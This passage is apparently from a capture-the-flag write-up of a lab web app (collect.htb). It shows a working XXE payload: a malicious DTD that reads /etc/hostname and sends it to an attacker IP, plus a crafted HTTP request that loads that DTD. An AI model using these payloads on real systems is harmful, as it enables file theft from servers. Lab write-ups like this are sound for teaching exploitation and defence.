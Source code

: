```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<method>POST</method>
	<uri>/auth/register</uri>
	<user>
		<username>test</username>
		<password>test</password>
	</user>
</root>
```

- Changed uri to `/auth/login` and got `x-access-token`:

```json
{
	"Status":"Ok",
	"Header": {
		"x-access-token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImlzX2F1dGgiOnRydWUsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjcwMjQ1NzE2LCJleHAiOjE2NzAyNDkzMTZ9.CK7CXoHY245Y1fNS31tvqQvy774HfCBfqgTIWCzPblk"
	}
}
```

- Leaked API Docs from `/documentation`

---

## Foothold

- This API call is vulnerable to XXE
- Read files via blind SSRF - exfiltrate data out-of-band using a malicious dtd file
- dtd file:

```
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource=/etc/hostname'>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.16.15/?x=%file;'>">
%eval;
%exfiltrate;
```

- Sent the following API call to the server and got the contents of file `/etc/hostname` which is `pollution`

```
POST /api HTTP/1.1
Host: collect.htb
Content-Length: 269
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://collect.htb
Referer: http://collect.htb/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=r8m0cvosgs95j34ckkh20dcuca
Connection: close

manage_api=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.16.15/evil.dtd"> %xxe;]>
<root>
	<method>POST</method>
	<uri>/auth/login</uri>
	<user>
		<username>test</username>
		<password>test</password>
```